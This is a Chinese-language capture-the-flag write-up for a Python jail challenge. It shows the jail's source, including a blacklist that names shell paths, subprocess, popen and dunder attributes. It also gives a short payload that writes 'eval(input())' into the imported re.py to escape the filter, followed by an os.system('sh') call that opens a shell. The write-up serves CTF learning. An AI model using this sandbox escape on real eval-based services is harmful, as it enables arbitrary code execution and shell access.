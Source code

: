 # Pyjail

本题改编自2023强网杯Pyjail ! It’s myFILTER !!!

源码如下：

```python
import code, os, subprocess,re
import pty
def blacklist_fun_callback(*args):
    print("You are Hacker!!!")

pty.spawn = blacklist_fun_callback
os.system = blacklist_fun_callback
os.popen = blacklist_fun_callback
subprocess.Popen = blacklist_fun_callback
subprocess.call = blacklist_fun_callback
code.interact = blacklist_fun_callback
code.compile_command = blacklist_fun_callback

vars = blacklist_fun_callback
attr = blacklist_fun_callback
dir = blacklist_fun_callback
getattr = blacklist_fun_callback
exec = blacklist_fun_callback
__import__ = blacklist_fun_callback
compile = blacklist_fun_callback
breakpoint = blacklist_fun_callback
banner=
print(banner)
del os, subprocess, code, pty, blacklist_fun_callback
input_code = input("Can you input your code to escape > ")
print(input_code)

blacklist_words = [
    "subprocess",
    "os",
    "code",
    "interact",
    "pty",
    "pdb",
    "platform",
    "importlib",
    "timeit",
    "imp",
    "commands",
    "popen",
    "load_module",
    "spawn",
    "system",
    "/bin/sh",
    "/bin/bash",
    "flag",
    "eval",
    "exec",
    "compile",
    "input",
    "vars",
    "attr",
    "dir",
    "getattr"
    "__import__",
    "__builtins__",
    "__getattribute__",
    "__class__",
    "__base__",
    "__subclasses__",
    "__getitem__",
    "__self__",
    "__globals__",
    "__init__",
    "__name__",
    "__dict__",
    "._module",
    "builtins",
    "breakpoint",
    "import",
]

def check(input_code):
    for x in blacklist_words:
        if x in input_code:
            print("False")
            return False
    return True

while '{' in input_code and '}' in input_code and input_code.isascii() and check(input_code) and "eval" not in input_code and len(input_code) < 50 and "read" not in input_code :
    input_code = eval(f"f'{input_code}'")
    print(input_code)
else:
    print("Player! Please obey the rules!")

```

设置了黑名单，禁用了大部分的模块和模块自带的函数，同时还禁用了字符串"eval"和"read"（注意是字符串）,而且还规定了payload的长度不能超过50

在本题中，我import了一个无用的模块"re"，并给出了提示：可以往某些模块里写一些东西

我们知道，当这个python程序执行时，首先会执行import的模块，所以，我们可以往re里写入`{open("re.py","a").write("eva""l(inpu""t())")}`

用"分隔来规避字符串检测，写入之后再重新访问，程序在执行re.py时，就会触发`eval(input())`，可以让我们输入任意代码并用eval()函数执行

此时我们使用一句话RCE `__import__('os').system('sh')`，即可getshell

![image](https://img2024.cnblogs.com/blog/3267310/202404/3267310-20240424212710653-1815466753.png)